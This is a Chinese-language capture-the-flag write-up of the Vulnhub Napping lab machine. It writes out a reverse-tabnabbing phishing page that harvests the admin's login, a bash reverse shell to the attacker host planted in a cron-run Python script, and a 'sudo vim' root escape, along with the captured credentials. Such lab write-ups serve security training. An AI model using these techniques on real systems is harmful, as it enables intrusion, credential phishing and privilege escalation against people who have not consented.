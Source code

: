 ```yaml
---

title: Vulnhub--Napping:1.0.1
categories: [渗透靶场, Vulnhub]

---
```


## **渗透复现**

1. 账号注册过后，web站点存在提交链接功能，利用tabnabbing漏洞获取管理员的账号密码
2. ssh登录，进行常规信息收集，在home目录下的其他用户发现定时任务计划
3. 利用定时任务进行反弹shell
4. sudo信息收集时，存在vim文件，vim文件执行bash命令，进行vim提权

## 知识扩展

1. Reverse tabnabbing漏洞利用进行钓鱼攻击
2. 定时任务反弹shell

## 靶机地址

https://www.vulnhub.com/entry/napping-101,752/

## 主机发现

（1）攻击机

```python
192.168.88.128
```

（2）目标靶机

```py
192.168.88.129
```

## 信息收集

### 端口扫描

![image-20240828103632177](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281036275.png)

### 目录扫描

![image-20240828103640005](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281036148.png)

### 目录爆破

![image-20240828103651381](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281036497.png)

### 目录访问

（1）登录框

![image-20240828103656967](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281036007.png)

（2）注册框

![image-20240828103711914](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281037958.png)

## 实施攻击

（1）弱口令爆破尝试，爆破用户名admin和test

![image-20240828103718023](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281037075.png)

（2）账号注册，并且进行登录

```python
test/test123
#登录成功,页面的意思是用户可以提交一个自定义链接，并且该链接会被管理员进行检查
```

![image-20240828103749755](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281037802.png)

![image-20240828103759965](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281038013.png)

（3）提交百度的URL：http://baidu.com，BP抓包进行分析

（a标签，有target='_blank'的特征，没有rel='noopener/noreferrer属性',可能存在Reverse tabnabbing漏洞）

```python
#漏洞原理：利用恶意网站B，对原先页面A进行修改，控制其成为钓鱼页面C，此时用户以为页面A依旧是先前页面，如果此时进行信息的交互，那么攻击者就可以窃取到用户的信息

#漏洞的利用：管理员访问攻击者提交的链接去到diaoyu，html页面，diaoyu，html页面利用window.opener修改原先的login，html页面，此时原先页面login，html已经成为钓鱼页面，如果管理员在login，html页面进行登陆，那么攻击者就可以窃取到管理员的用户信息
```

![image-20240828103837642](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281038698.png)

（4）进行钓鱼攻击的利用，回到登录界面右键保存登录界面为login.html

![image-20240828103844980](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281038026.png)

![image-20240828103851423](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281038476.png)

（5）新建一个恶意页面diaoyu.html，代码如下

```python
#记得修改IP和监听端口
#用户要访问的链接页面
<!DOCTYPE html>
<html>
<body>
    <script>
      if(window.opener) mainframe.location.replace=('http://192.168.88.128:8888/login.html');
      if(window.opener  != window) mainframe.location.replace=('http://192.168.88.128:8888/login.html');
</script>
</body>
</html>
```

（6）将两个文件放到攻击机中，开启监听，http80端口的服务

![image-20240828103858579](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281038660.png)

（7）回到页面提交钓鱼链接

```py
#注意ip是kali（跳转至kali的diaoyu页面）
http://192.168.88.128/diaoyu.html
```

![image-20240828103911280](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281039325.png)

（8）成功拿到管理员的用户密码

```py
#账号
daniel
#密码
C%40ughtm3napping123
#URL解码
C@ughtm3napping123
```

![image-20240828103917466](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281039555.png)

（9）登录管理员用户，web站点无法登录那就尝试ssh连接

![image-20240828103929243](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281039293.png)

![image-20240828103937146](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281039254.png)

## 提权

（1）信息收集，daniel属于administrators groups下的成员（同组用户可执行相应的组程序）

![image-20240828103948090](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281039185.png)

![image-20240828104002380](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040477.png)

（2）去到home目录下adrian用户，再次进行信息收集，发现groups administrators用户可执行的文件：query.py（也就是当前用户daniel也可执行该脚本）

![image-20240828104015524](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040625.png)

（3）代码分析，query.py是个定时任务脚本，每两分钟执行一次该脚本，该脚本向site_status.txt文件写入时间

![image-20240828104027428](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040536.png)

![image-20240828104036018](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040121.png)

（4）利用定时任务执行query.py进行反弹shell，在query.py脚本中写入反弹shell命令

```py
#因为adrian目录下不具备写权限
#因此回到dinary目录下，写入反弹shell文件

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.88.128/8888 0>&1'
```

![image-20240828104044339](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040412.png)

![image-20240828104052194](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281040308.png)

（5）编辑query.py脚本写入以下内容

```py
import os
os.system('/usr/bin/bash /home/daniel/shell.sh')
```

![image-20240828104104306](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281041411.png)

（6）攻击机开启监听，成功获取到adrian用户的shell

![image-20240828104116925](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281041018.png)

（7）信息收集

![image-20240828104128934](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281041007.png)

（8）利用vim文件进行提权

```python
#sudo-vim提权，直接执行以下命令
sudo vim -c ':!/bin/bash'
```

![image-20240828104143952](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281041065.png)